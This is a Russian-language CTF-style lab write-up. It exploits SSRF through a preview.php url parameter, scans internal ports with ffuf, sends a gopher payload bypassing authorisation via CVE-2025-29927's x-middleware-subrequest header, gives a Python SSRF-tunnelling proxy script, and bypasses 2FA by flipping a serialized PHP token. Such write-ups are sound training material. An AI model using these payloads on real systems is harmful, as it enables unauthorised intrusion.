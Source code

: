 Исследуем сайт и находим страницу которая требует параметр ?url

![](../attachment/Pasted%20image%2020251025141605.png)

Проверим возможность SSRF,gopher и  локального обращения

![](../attachment/Pasted%20image%2020251025141613.png)
![](../attachment/Pasted%20image%2020251029142032.png)

Проводя дальнейший анализ сайта, проверим наличие портов на локальном адресе

```
ffuf -u http://10.10.195.254/preview.php?url=http://127.0.0.1:FUZZ -w ~/Desktop/wordlists/seclists/Fuzzing/5-digits-00000-99999.txt -fw 1
```

![](../attachment/Pasted%20image%2020251025141823.png)
Находим порт 10000, по которому открывается возможность посмотреть API но требуется авторизация

![](../attachment/Pasted%20image%2020251025141851.png)

Находим информация о CVE-2025-29927, которая позволяет обойти авторизацию используя заголовок  x-middleware-subrequest
С помощью gopher отправим запрос. В ответе получим первый флаг и информацию что API не работает и следует обращаться к management используя указанную учетную запись


```
gopher://127.0.0.1:10000/_GET%2520%2fcustomapi%2520HTTP%2f1.1%250d%250aHost:%2520127.0.0.1:10000%250d%250ax-middleware-subrequest:%2520middleware%250d%250a
```

![](../attachment/Pasted%20image%2020251029143610.png)

Страница management недоступна по порту 10000, но активна на 80 порту
![[../Pasted image 20251029145315.png]]
![](../attachment/Pasted%20image%2020251029145309.png)
При отправке gopher запроса выдает код 301 с учетными данными.
Создаем прокси который перенаправит наш запрос к 127.0.0.1:5000 на 10.10.209.131:80 и закодирует запрос для работы с gopher
```
#!/usr/bin/env python3
import socket
import requests
import urllib.parse
import threading

LHOST = '127.0.0.1'
LPORT = 5000
TARGET_HOST = "10.10.209.131"
HOST_TO_PROXY = "127.0.0.1"
PORT_TO_PROXY = 80

def handle_client(conn, addr):
    with conn:
        data = conn.recv(65536)
        double_encoded_data = urllib.parse.quote(urllib.parse.quote(data))
        target_url = f"http://{TARGET_HOST}/preview.php?url=gopher://{HOST_TO_PROXY}:{PORT_TO_PROXY}/_{double_encoded_data}"
        resp = requests.get(target_url)
        conn.sendall(resp.content)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((LHOST, LPORT))
    s.listen()
    print(f"Listening on {LHOST}:{LPORT}, proxying to {HOST_TO_PROXY}:{PORT_TO_PROXY} via {TARGET_HOST}...")
    while True:
        conn, addr = s.accept()
        client_thread = threading.Thread(target=handle_client, args=(conn, addr), daemon=True)
        client_thread.start()
```

Запускаем созданный прокси и используем ранее полученные данные для входа

![](../attachment/Pasted%20image%2020251029151755.png)

Открывается страница с 2FA

![](../attachment/Pasted%20image%2020251029151821.png)

При анализе странице находим auth_token который выглядит как сериализованный объект PHP, в котором b:0 означется false. Исправим 0 на 1 и отправим запрос

![](../attachment/Pasted%20image%2020251029151853.png)

Успешно получаем второй флаг

![](../attachment/Pasted%20image%2020251029152029.png)
